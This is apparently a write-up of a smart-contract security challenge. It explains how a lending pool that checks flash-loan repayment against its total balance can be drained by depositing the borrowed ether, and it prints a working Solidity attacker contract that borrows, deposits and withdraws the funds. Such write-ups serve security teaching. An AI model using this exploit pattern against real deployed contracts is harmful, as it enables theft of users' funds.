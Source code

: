 ```javascript
function deposit() external payable {
        unchecked {
            balances[msg.sender] += msg.value;
        }
        emit Deposit(msg.sender, msg.value);
    }
```

The same balance of the protocol is also used in the flash loan function to check whether the user has paid back the flash loan:


```javascript
function flashLoan(uint256 amount) external {
        uint256 balanceBefore = address(this).balance;

        IFlashLoanEtherReceiver(msg.sender).execute{value: amount}();

@>      if (address(this).balance < balanceBefore) {
            revert RepayFailed();
        }
    }
```

The mixed up accounting can be exploited to extract the the funds that where taken in the flash loan. This exploit works by depositing all funds of the flash loan via the `deposit` function. Since the `deposit` function will add the funds to the contract's balance the check in the end of the `flashLoan` function (`address(this).balance < balanceBefore`) will succeed and the flash loan will be considered repaid. The player can then withdraw the funds from the pool because the pool thinks that the user withdraws their rightfully deposited funds.

The exploit is implemented in the `FlashLoanReceiver` contract. The user calls the `flashLoan` function of the attacker contract which in turn calls the `flashLoan` function of the pool. The callback of the pool to the attacker contract is the `execute` function which deposits all the funds into the pool. The pool will think that the flash loan was repaid and the attacker can withdraw the funds right after the flash loan was executed.

```javascript
contract FlashLoanReceiver is IFlashLoanEtherReceiver {

    SideEntranceLenderPool pool;

    constructor(SideEntranceLenderPool _pool) {
        pool = _pool;
    }

    function flashLoan(uint256 amount) external {
        pool.flashLoan(amount);
        pool.withdraw();
        msg.sender.call{value: amount}("");
    }

    function execute() external payable {
        pool.deposit{value: msg.value}();
    }

    receive() external payable {}
}
```
